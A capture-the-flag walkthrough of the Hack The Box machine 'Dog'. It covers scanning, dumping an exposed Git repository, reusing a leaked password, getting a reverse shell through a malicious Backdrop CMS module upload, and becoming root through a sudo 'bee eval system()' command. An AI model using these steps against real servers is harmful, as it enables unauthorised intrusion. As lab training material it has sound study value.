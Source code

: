 
nmap -sV  10.10.11.58 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-17 04:56 CEST
Nmap scan report for 10.10.11.58
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.46 seconds


feroxbuster -u http://10.10.11.58/ -w /usr/share/wordlists/seclists/PathBANGER.txt  -x php,sh 
gets us a shit ton of hits so here are some of the intersting ones
```
### 🧠 **Interesting Files (Potentially Sensitive or Useful Info)**

- `http://10.10.11.58/README.md`
    
- `http://10.10.11.58/settings.php` _(zero-length, but a common config file worth checking manually)_
    

---

### ⚙️ **Executable Scripts**

- `http://10.10.11.58/core/scripts/install.sh`
    
- `http://10.10.11.58/core/scripts/backdrop.sh`
    
- `http://10.10.11.58/core/scripts/generate-d7-content.sh`
    
- `http://10.10.11.58/core/scripts/dump-database-d7.sh`
    
- `http://10.10.11.58/core/scripts/password-hash.sh`
    
- `http://10.10.11.58/core/scripts/run-tests.sh`
    
- `http://10.10.11.58/core/scripts/test.script`
    

---

### 📂 **Config Files (JSON / YAML / etc.)**

Under `/files/config_*/active/`:

- All the `*.json` files here represent **Drupal/Backdrop config exports**, including:
    
    - `user.role.authenticated.json`
        
    - `system.core.json`
        
    - `user.role.administrator.json`
        
    - `filter.format.full_html.json`
        
    - `menu.menu.main-menu.json`
        
    - `layout.layout.home.json`
        
    - `user.mail.json`
        
    - `views.view.user_admin.json`
        
    - and many more...
        

These give a **full view of the site structure, roles, views, and content types**. Very useful.

---

### 🖼️ **User-uploaded Content (images, styles, etc.)**

- `/files/field/image/*.jpg`
    
    - `dog.jpeg`
        
    - `dog-animal_dotorlbdd7.jpg`
        
    - `dog-obesity.jpg`
        
    - `dog-food.jpg`
        
    - Suggests possible image upload functionality
        

---

### 🛠️ **Admin/Install/Update Pages**

- `http://10.10.11.58/core/install.php`
    
- `http://10.10.11.58/core/authorize.php` _(403, but still interesting)_
    
- `http://10.10.11.58/core/update.php` _(403)_
    
- `http://10.10.11.58/core/cron.php` _(403)_
    
- `http://10.10.11.58/index.php`
```

Going over all these there is not much interesting to be found.

I use `feroxbuster` to look for interesting endpoints:

```

```


Let's say we discover:
    /core
    /modules
    /files
    /settings.php
    /robots.txt
    /index.php

## Dump Git Repo

Dump the `.git` directory using `gitdumper.sh`:
note: you need to let this run for a while 
```
gitdumper.sh http://dog.htb/.git/ dog-git
cd dog-git
```

then use the extractor

then find user
```
grep -R "@dog.htb" *                                           
Desktop/shared vault/kali-vault/publish/HTB boxes/Dog.md:root <dog@dog.htb>
Desktop/shared vault/kali-vault/publish/HTB boxes/Dog.md:tiffany <tiffany@dog.htb>
GitTools/Extractor/git-ext/0-8204779c764abd4c9d8d95038b6d22b6a7515afa/commit-meta.txt:author root <dog@dog.htb> 1738963331 +0000
GitTools/Extractor/git-ext/0-8204779c764abd4c9d8d95038b6d22b6a7515afa/commit-meta.txt:committer root <dog@dog.htb> 1738963331 +0000
GitTools/Dumper/git-dump/.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000     commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
GitTools/Dumper/git-dump/.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000        commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases

```


Search for database credentials:
```
grep -r "mysql://" .
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

So, creds are:

- **User**: `root`
- **Password**: `BackDropJ2024DS2024`

Which does not work :sad:

```
root <dog@dog.htb>
tiffany <tiffany@dog.htb>
```
Try logging in at:
http://dog.htb/?q=user/login
Using:
```
Username: tiffany
Password: BackDropJ2024DS2024
```
**Success** — logged in as Tiffany.

## Authenticated RCE via Module Upload

Backdrop CMS v1.27.1 is vulnerable to **RCE via malicious module upload**.
### Prepare payload:

Make a folder named `shell/` with two files:
shell.info
```
type = module
name = Shell
description = Reverse shell
core = 1.x
package = Custom
version = 1.0
```

#### `shell.php`:

Insert a PHP reverse shell payload (e.g., from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
Then archive the folder:
```
tar -czf shell.tar.gz shell/
```

## Upload Module & Trigger Shell

Go to:
http://dog.htb/?q=admin/modules/install
- Upload `shell.tar.gz`
- Enable the module if required
- Trigger shell at:
http://dog.htb/modules/shell/shell.php
Meanwhile, on your attacker machine:
```
nc -lvnp 1234
```

Reverse shell caught as **`**www-data**`
In your reverse shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
ls /home
johncusack

su johncusack
Password: BackDropJ2024DS2024

cat ~/user.txt
6f57eee316d57147f467455026103ed7
```

Check `sudo` access:
You’ll see:
```
(ALL) NOPASSWD: /usr/local/bin/bee --root=/var/www/html *
```

This lets you run the `bee` CLI (Backdrop’s tool) with root privileges.
### Exploit with system():
```
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"

cat /root/root.txt > /tmp/f
cat /tmp/f
b47fde5773706a20f456f96b3f51172d
```
